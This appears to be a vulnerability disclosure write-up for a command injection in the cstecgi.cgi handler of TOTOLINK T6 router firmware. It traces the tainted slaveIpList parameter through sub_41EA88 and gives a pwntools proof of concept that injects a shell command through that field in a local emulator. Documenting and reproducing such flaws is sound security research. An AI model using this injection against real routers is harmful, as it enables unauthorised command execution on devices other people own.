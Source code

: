 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a execute arbitrary command  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_41EA88, v5 get from slaveIpList

![](https://s3.bmp.ovh/imgs/2022/08/23/c72165d05befefae.png)


finally pass to v10 and execute 


## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setUpgradeFW",
    "FileName": "1.txt",
    "slaveIpList": " \";ls > /tmp/1; \" "
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
